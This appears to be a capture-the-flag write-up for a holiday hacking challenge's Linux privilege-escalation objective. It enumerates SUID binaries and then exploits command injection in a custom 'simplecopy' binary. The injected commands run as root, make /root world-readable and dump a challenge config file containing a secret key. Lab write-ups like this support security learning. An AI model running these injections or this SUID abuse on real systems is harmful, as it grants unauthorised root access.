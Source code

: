 # Objective 7: Linux PrivEsc
**Location: Island of Misfit Toys: Ostrich Saloon**  
**Hints provided by Rose Mold**

The objective is to perform a privilege escalation in a Linux terminal session. Finally the binary residing in `/root` has to be executed.
The first approach is to find `suid` files on the file system:
```
elf@745490537a8a:~$ find / -perm -4000 -ls 2>/dev/null
1312417 84 -rwsr-xr-x 1 root root 85064 Nov 29 2022 /usr/bin/chfn
1312423 52 -rwsr-xr-x 1 root root 53040 Nov 29 2022 /usr/bin/chsh
1312541 56 -rwsr-xr-x 1 root root 55528 May 30 2023 /usr/bin/mount
1312546 44 -rwsr-xr-x 1 root root 44784 Nov 29 2022 /usr/bin/newgrp
1312620 68 -rwsr-xr-x 1 root root 67816 May 30 2023 /usr/bin/su
1312484 88 -rwsr-xr-x 1 root root 88464 Nov 29 2022 /usr/bin/gpasswd
1312645 40 -rwsr-xr-x 1 root root 39144 May 30 2023 /usr/bin/umount
1312557 68 -rwsr-xr-x 1 root root 68208 Nov 29 2022 /usr/bin/passwd
1457015 20 -rwsr-xr-x 1 root root 16952 Dec 2 22:17 /usr/bin/simplecopy
```

`simplecopy` looks promising as this does usually not exist on Linux systems (and has a recent last modified date).

Invoking this binary with some test arguments shows interesting error messages and reveals the name of the binary in `/root`:
```
elf@745490537a8a:~$ simplecopy "; ls -l /root" b
cp: missing file operand
Try 'cp --help' for more information.
ls: cannot access 'b': No such file or directory
/root:
total 600
-rws------ 1 root root 612560 Nov 9 21:29 runmetoanswer
```

So it seems that it is possible to inject shell commands in the arguments. We use this to add read and execute permissions to `/root` and `/root/runmetoanswer`:
```
elf@745490537a8a:~$ simplecopy "a; chmod -R a+rx /root" b
cp: missing destination file operand after 'a'
Try 'cp --help' for more information.
chmod: cannot access 'b': No such file or directory
elf@745490537a8a:~$ ls -l /root
total 600
-rwsr-xr-x 1 root root 612560 Nov 9 21:29 runmetoanswer
elf@745490537a8a:~$ /root/runmetoanswer
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```


**Achievement: Linux PrivEsc**

### Alternative

As it is also possible to provide the answer to the executable on the commandline, it is possible to complete this objective with just one command (even without knowing the executable name):

```
elf@d2e00edba597:~$ simplecopy "; /root/*" santa
cp: missing file operand
Try 'cp --help' for more information.
Your answer: santa

Checking....
Your answer is correct!
```

***

The correct answer was placed in `/etc/runtoanswer.yaml`:
```
elf@958d5b4a0e93:/etc$ simplecopy '; cat /etc/runtoanswer.yaml' b
cp: missing file operand
Try 'cp --help' for more information.
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: b08b538569e395f88e12ef9fe751ac39

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "santa"

text: |
  Who delivers Christmas presents?

success_message: "Your answer is *correct*!"
failure_message: "Sorry, that answer is *incorrect*. Please try again!"
[...]
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTQxMTM0NzM1OSwtNTc3MjI2MDgzLC0xOT
IxMTYyNTEwLC0xNzY2NTUxNjIwLC04MjYxNzg2ODQsLTIwMTAx
OTI2M119
-->
